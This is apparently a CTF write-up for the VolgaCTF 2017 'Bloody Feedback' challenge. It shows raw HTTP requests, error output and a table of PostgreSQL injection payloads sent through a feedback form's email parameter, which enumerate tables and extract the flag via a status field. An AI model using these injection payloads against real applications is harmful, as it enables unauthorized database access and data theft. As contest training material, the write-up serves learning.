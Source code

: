 ```yaml
---
layout: page
title: "VolgaCTF 2017 Quals Writeup: Bloody Feedback"
---
```


> Bloody Feedback
>
> 100
> 
> Send your feedback at bloody-feedback.quals.2017.volgactf.ru
> 
> DO. NOT. USE. SQLMAP
> Otherwise your IP will be banned

The Web site has functionality to submit messages and view their status. After some exploring we see that there is SQL injection on the e-mail parameter:

```http
POST /submit/ HTTP/1.1
Host: bloody-feedback.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://bloody-feedback.quals.2017.volgactf.ru/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

name=x&email=x%40x.com'&message=x
```
```http
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Connection: keep-alive
Content-Type: text/html
Date: Sat, 25 Mar 2017 15:34:09 GMT
Server: nginx/1.10.0 (Ubuntu)

<!DOCTYPE html>
<html lang="en">
    <link href="../static/css/bootstrap.css" rel="stylesheet">
        <script src="../static/js/jquery-3.1.1.js"></script>  
        <script src="../static/js/bootstrap.js"></script>

...		
            
                <p>ERROR: DBD::Pg::db do failed: ERROR:  syntax error at or near "not"
LINE 1: ...QSWS7o838iMteRdzVj','x','x','x@x.com'','not proces...
                                                   ^ at Worker.pm line 29.

</p>
            </div>
        </div>
        
    </body>
</html>
```

We can exploit it by submitting a test string...

```http
POST /submit/ HTTP/1.1
Host: bloody-feedback.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://bloody-feedback.quals.2017.volgactf.ru/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

name=x&email=x%40x.com','test')--&message=x
```
```http
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Connection: keep-alive
Content-Type: text/html
Date: Sat, 25 Mar 2017 15:39:52 GMT
Server: nginx/1.10.0 (Ubuntu)

...
            
                <p><h3>Check status</h3><a href='/check/?code=sdBw1759uMtSW9kBD1RwspwVFXahzNiC'>sdBw1759uMtSW9kBD1RwspwVFXahzNiC</a></p>
            </div>
        </div>
        
    </body>
</html>
```

...and have it displayed in the status:

```http
GET /check/?code=sdBw1759uMtSW9kBD1RwspwVFXahzNiC HTTP/1.1
Host: bloody-feedback.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://bloody-feedback.quals.2017.volgactf.ru/submit/
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Connection: keep-alive
Content-Type: text/html
Date: Sat, 25 Mar 2017 15:40:11 GMT
Server: nginx/1.10.0 (Ubuntu)

...            
                <p><h3>Your message status is <span class="label label-info">test</span></h3></p>
            </div>
        </div>
        
    </body>
</html>
```

This will be our way to exfiltrate the data from the database - we will inject SQL into the status field and then check the status page to see the value. We also will have to be mindful of the fact that the status field is 30 characters long, so we will have to adjust the data we put into it to account for that.

Here are the injected SQL snippets that we put into the ```email``` parameter and their results from the status page:

**SQL snippet**|**Result**
-----------|------
```x%40x.com',substring(version(),0,30))--```|```PostgreSQL 9.5.6 on x86_64-pc```
```x%40x.com',(SELECT count(*) FROM pg_catalog.pg_tables WHERE schemaname <> 'pg_catalog' AND schemaname <> 'information_schema';))--```|```2```
```x%40x.com',(SELECT tablename FROM pg_catalog.pg_tables WHERE schemaname <> 'pg_catalog' AND schemaname <> 'information_schema' limit 1;))--```|```messages```
```x%40x.com',(SELECT tablename FROM pg_catalog.pg_tables WHERE schemaname <> 'pg_catalog' AND schemaname <> 'information_schema' limit 1 offset 1;))--```|```s3cret_tabl3```
```x%40x.com',(select column_name from information_schema.columns where table_name like 's3cret_tabl3%' limit 1;))--```|```s3cr3tc0lumn```
```x%40x.com',(SELECT substring(string_agg(s3cr3tc0lumn, ','),0,30) FROM s3cret_tabl3;))--```|```FLAG1,VolgaCTF,Volga,1,VolgaC```
```x%40x.com',(SELECT substring(string_agg(s3cr3tc0lumn, ','),30,30) FROM s3cret_tabl3;))--```|```TF{eiU7UJhyeu@ud3*},volgavolga```

The flag is ```VolgaCTF{eiU7UJhyeu@ud3*}```.